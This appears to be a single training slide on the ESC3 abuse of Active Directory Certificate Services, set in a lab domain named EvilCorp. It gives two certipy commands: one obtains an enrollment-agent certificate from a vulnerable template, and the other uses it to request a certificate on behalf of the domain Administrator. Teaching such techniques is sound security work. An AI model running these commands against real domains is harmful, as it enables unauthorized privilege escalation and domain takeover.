

# ESC3 - Abuse
Request a certificate based on the vulnerable certificate template ESC3:
certipy req 'EvilCorp/TheHorseman:EvilCorp3.@EVILDC1.EvilCorp.local' -ca 'EvilCorp-EVILDC1-CA' -template 'Vulnerable ECS3‘
Then use the Certificate Request Agent certificate (-pfx) to request a certificate on behalf of other another :
certipy req 'EvilCorp/TheHorseman:EvilCorp3.@EVILDC1.EvilCorp.local' -ca 'EvilCorp-EVILDC1-CA' -template 'User' -on-behalf-of 'EvilCorp\Administrator' -pfx 'thehorseman.pfx' -out 'admin'